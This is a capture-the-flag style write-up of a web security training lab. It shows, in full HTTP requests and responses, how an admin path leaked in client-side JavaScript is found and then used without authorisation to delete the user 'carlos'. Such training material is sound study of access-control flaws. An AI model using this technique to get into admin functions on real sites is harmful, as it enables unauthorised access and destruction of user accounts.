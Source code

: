 ## Lab: Unprotected admin functionality with unpredictable URL

This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user `carlos`.

## Solution:
When entering the root of the site we find a script-tag in the response containing some javascript that creates an a-tag with a href pointing to ```/admin-4akd4x``` if the isAdmin variable is set to true. But we get the endpoint either way.

Request:
```http
GET / HTTP/1.1
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11051

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-4akd4x');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
**********SNIP**********
```

We try to send a request to this endpoint.
Request:
```http
GET /admin-4akd4x HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3536

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin-4akd4x/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin-4akd4x/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP**********
```

In the response snippet we find the URI:s for deleting users again.
Request:
```http
GET /admin-4akd4x/delete?username=carlos HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin-4akd4x
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

We get a 302 which redirects us back to the admin panel with the message
![](Deleted_User_Successfully.png)